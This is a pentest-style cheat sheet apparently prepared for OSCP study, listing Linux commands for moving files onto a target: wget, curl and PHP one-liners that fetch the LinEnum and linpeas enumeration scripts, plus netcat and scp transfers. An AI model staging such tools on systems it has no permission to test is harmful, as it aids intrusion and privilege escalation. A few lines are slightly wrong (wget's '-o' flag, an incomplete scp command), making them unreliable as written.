 ```yaml
---
title: "Linux"
permalink: /notes/filetransferlinux/
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - transfer
  - filetransfer
  - linux

toc: true
hide_title: true
excerpt: ""
---
```


## Fast Linux Commands

| Command | Description |
|---------|-------------|
| wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh | Download a file using Wget |
| curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | Download a file using cURL |
| php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);' | Download a file using PHP |

## Wget

```
wget http://192.168.1.5/linpeas.sh -o linpeas.sh
```

## cURL

```
curl http://192.168.1.5/hello.txt -o hello.txt
```

## Netcat

**Sender**

```
nc -lvp 1234 < test.txt
```

**Receiver**

```
nc -nv 127.0.0.1 1234 > test.txt
```

## SCP

- Copies files between two hosts over SSH

**Copy local file to remote system** -

```
scp file.txt remote_username@10.10.10.10:/remote/directory
```

**Copy remote file to local system -**

```
scp remote_username@10.10.10.10:/remote/file.txt /local/directory
```

**I**mprove scp performance by **using blowfish**

```
scp -c blowfish remote_username@10.10.10.10:/remote/directory
```